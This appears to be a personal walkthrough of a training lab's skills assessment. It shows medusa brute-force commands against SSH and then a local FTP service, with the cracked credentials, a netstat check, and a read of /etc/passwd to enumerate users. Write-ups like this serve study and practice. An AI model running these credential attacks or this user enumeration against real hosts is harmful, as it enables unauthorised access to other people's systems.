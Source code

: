 ![](Pasted%20image%2020250304003509.png)

# Skills Assessment 2

For this one I'll use the username `satwossh` and tried to crack its ssh password using medusa:

```shell
medusa -h 94.237.55.185 -n 38813 -u satwossh -P 2023-200_most_used_passwords.txt -M ssh -t 3

[redacted]
2025-03-04 00:40:39 ACCOUNT FOUND: [ssh] Host: 94.237.55.185 User: satwossh Password: password1 [SUCCESS]
```

So then I logged in with: `satwossh:password1`

Then I checked for running services:

```shell
netstat -tulpn | grep LISTEN

[redacted]
tcp        0      0 0.0.0.0:22           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                :::*                    LISTEN      -                   
tcp6       0      0 :::22                :::*                    LISTEN      -  
```

So FTP is also running. I checked the content of `/etc/passwd` to know the ftp user which is `thomas`.
- Note: ==I could have used Username anarchy to identify the ftp username==

Inside of the machine I found a `.txt` called `IncidentReport.txt`:

```txt
System Logs - Security Report

Date: 2024-09-06

Upon reviewing recent FTP activity, we have identified suspicious behavior linked to a specific user. The user **Thomas Smith** has been regularly uploading files to the server during unusual hours and has bypassed multiple security protocols. This activity requires immediate investigation.

All logs point towards Thomas Smith being the FTP user responsible for recent questionable transfers. We advise closely monitoring this user’s actions and reviewing any files uploaded to the FTP server.

Security Operations Team
```

Then I performed a brute force attack to the ftp:

```shell
medusa -h 127.0.0.1 -u thomas -P passwords.txt -M ftp -t 5

[redacted]
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: thomas Password: chocolate! [SUCCESS]
```
